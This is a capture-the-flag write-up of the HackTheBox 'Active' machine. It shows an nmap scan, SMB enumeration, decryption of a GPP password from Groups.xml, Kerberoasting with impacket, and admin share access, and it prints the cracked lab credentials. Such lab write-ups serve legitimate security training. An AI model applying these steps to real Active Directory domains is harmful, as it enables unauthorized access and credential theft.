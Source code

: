 ```yaml
---
title: Active
layout: post
author: Bit Criminals Team
date: 2021-08-02 14:30:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://app.hackthebox.eu/machine/Active
---
```


## STEP_1 ==> NMAP Scan

```
└─$ nmap -sV 10.10.10.100 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-02 14:41 IST
Nmap scan report for 10.10.10.100
Host is up (0.18s latency).
Not shown: 983 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-08-02 09:24:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.08 seconds
```

## STEP_2 ==> Enumeration

```bash
smbclient -L 10.10.10.100
```
![](HTB_Active/images/2.png)

  
## STEP_3 ==> Connect to the Replication

```bash
smbclient //10.10.10.100/Replication
```

We find that Groups.xml contains an encrypted password of username SVC_TGS.

![](HTB_Active/images/3.png) 


## STEP_4 ==> Cracking the encryption

The private key was released by Microsoft so it can be decrypted from the built in kali tool `/usr/bin/gpp-decrypt`

![](HTB_Active/images/pass_crack.png)

```Password-GPPstillStandingStrong2k18```


 ## STEP_5 ==> Getting User.txt

From above credential we login as user - SVC_TGS
```bash
smbclient //10.10.10.100/Users -U SVC_TGS
```

![](HTB_Active/images/user.png)


## STEP_6 ==> Privilege Escalation

In nmap scanning result we saw port 88 was open for Kerberos therfore some SPN is associated.

>https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py

![](HTB_Active/images/5.png)


## STEP_7 ==> Cracking the hash

![](HTB_Active/images/6.png)
```Password-Ticketmaster1968```

## STEP_8 ==> Login as administrator

```bash
smbclient //10.10.10.100/C$ -U active.htb\\administrator
```

![](HTB_Active/images/7.png)


## STEP_9 ==> root.txt

` /Users/Administrator/Desktop`
  
![](HTB_Active/images/8.png)

![](HTB_Active/images/root.png)
